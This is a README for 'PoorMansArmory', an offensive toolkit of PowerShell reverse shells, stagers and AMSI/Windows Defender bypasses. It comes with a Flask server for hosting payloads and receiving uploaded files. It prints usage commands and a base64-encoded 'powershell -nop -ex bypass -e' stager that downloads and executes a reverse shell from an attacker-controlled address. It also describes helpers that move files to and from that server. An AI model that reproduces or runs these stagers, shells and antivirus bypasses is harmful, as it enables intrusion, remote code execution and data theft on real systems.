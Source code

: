 # PoorMansArmory
Collection of malleable payloads and tools that aim to bypass AMSI, Windows Defender, and self-signed certificate checks while being intuitive to use.

```
                              _ _
 ____  __  __      _         | | |
|  _ \|  \/  |    / \        | | |
| |_) | |\/| |   / _ \       | | |   Mom: "We have Cool Tools™ at home!"
|  __/| |  | |_ / ___ \ _    | | |   The Cool Tools™ At Home:
|_| (_)_|  |_(_)_/   \_(_)   | | |
                             |_|_|
```


### Reverse Shells & Stagers
---
- Works in both Linux and Windows Environments
- Supports both PowerShell Desktop and PowerShell Core
- Payloads default to PowerShell 5.0, but can be toggled to support PowerShell 2.0

```powershell
# pwsh
PS /opt/PoorMansArmory> Get-RevShell <attacker_ip> <listening_port> -AmsiBypass -WebClientURL "http(s)://<ip_addr>" -Base64 > ./downloads/revshell
PS /opt/PoorMansArmory> Get-Stager -PayloadURL "http(s)://<ip_addr>/d/revshell" -Base64
powershell -nop -ex bypass -e aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4
ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwACgAcwApADoALwAvADwAaQBwAF8AYQBkAGQAcgA+AC8AZAAvAHIAZQB2AHMAaABlAGwAbAAnACkAKQA=
```
Above example creates a reverse shell that has disables AMSI and loads in the WebClient Helper scripts, outputs the revshell into the "pma_server.py" downloads directory, and creates a stager pointing to the payload.

![Help](https://cdn.discordapp.com/attachments/855920119292362802/1111015383130968174/image.png)


### pma_server.py
---
- Simple Python Flask server
- Supports SSL via self-signed certificates
- ``/d/`` directory is for downloadable files
- ``/u/`` directory is for uploaded files
- ``/r/`` directory is for returning raw content **(DEPRECATED)**

![pma_server](https://cdn.discordapp.com/attachments/855920119292362802/1110739921028792351/image.png)


### WebClient Helper Tools
---
Functions Include:
- ``download``	-->		Download files hosted on the PMA server
- ``upload``		-->		Upload files to the PMA server
- ``import``		-->		Load PowerShell files and C# binaries into the session

These functions can either be loaded into a session with ``Load-WebClientHelpers`` using Global scopes or be prefixed into the reverse shell with a hardcoded server URL using the `-WebClientURL "http(s)://<ip_addr>"` parameter when using ``Get-RevShell``.

![WebClient Helpers](https://cdn.discordapp.com/attachments/855920119292362802/1110744324158799932/image.png)
Above example uses a reverse shell on port 53 using the WebClient Helper Tools (``-WebClientURL "https://10.20.30.201"``, AMSI bypass (``-AmsiBypass``), and HTTPS bypass (``-HttpsBypass``).  Functionality shows off file uploads, PowerShell script importing, and C# binary reflection.